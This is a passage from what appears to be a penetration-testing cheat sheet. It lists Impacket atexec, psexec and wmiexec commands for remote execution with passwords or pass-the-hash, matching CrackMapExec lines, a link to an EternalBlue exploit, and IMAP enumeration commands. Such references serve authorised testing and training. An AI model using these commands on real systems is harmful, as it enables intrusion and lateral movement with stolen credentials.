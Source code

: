     # AteExec
    atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
    atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
    

**Exploitation (EternalBlue - MS17-010):**[https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

**PsExec**

    # Credentials
    psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
    
    # Pass the Hash
    psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
    
    # Testing with Crackmapexec
    crackmapexec smb <IP> -u <USER> -p <PASSWORD> --psexec
    crackmapexec smb <IP> -u <USER> -H <NTHASH> --psexec
    

**WMIExec**

    # Credentials
    wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
    
    # Pass the Hash
    wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
    
    # Testing with Crackmapexec
    crackmapexec wmiexec <IP> -u <USER> -p <PASSWORD>
    crackmapexec wmiexec <IP> -u <USER> -H <NTHASH>
    

#### 1.4.12 143, 993: IMAP

**Nmap Scripting Scan**

    nmap -p 143,993 --script imap-ntlm-info <ip>
    

**Banner Grabbing**
                Connect to the server to identify software/version.

    openssl s_client -connect <target-ip>:993
    

**Search for Vulnerabilities**
